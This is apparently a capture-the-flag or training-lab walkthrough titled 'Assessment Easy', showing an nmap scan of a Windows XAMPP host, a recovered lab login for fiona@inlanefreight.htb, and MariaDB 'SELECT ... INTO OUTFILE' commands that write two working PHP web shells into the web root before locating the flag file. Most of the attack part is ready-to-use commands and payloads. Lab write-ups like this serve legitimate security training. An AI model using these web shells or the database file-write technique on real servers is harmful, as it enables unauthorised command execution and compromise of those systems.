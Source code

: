 # Assessment Easy

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

```
nmap 10.129.203.7 -p 21,25,80,443,587,3306,2289 -sC -sV -oN 10.129.203.7
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 03:57 EDT
Nmap scan report for 10.129.203.7
Host is up (0.19s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open     http        Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open     https       Core FTP HTTPS Server
|_http-server-header: Core FTP HTTPS Server
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2289/tcp filtered dict-lookup
3306/tcp open     mysql       MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: [Rh4j;&L.>.jKy@o3LgA
|_  Auth Plugin Name: mysql_native_password
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>fiona@inlanefreight.htb</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption><p>fiona@inlanefreight.htb:987654321</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [phpmyadmin]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell.php';
Query OK, 1 row affected (0.190 sec)
```



```
MariaDB [(none)]> SELECT "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell2.php';
Query OK, 1 row affected (0.190 sec)
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

```
dir /s /b C:\flag.txt
```

then type the flag file and get the flag.
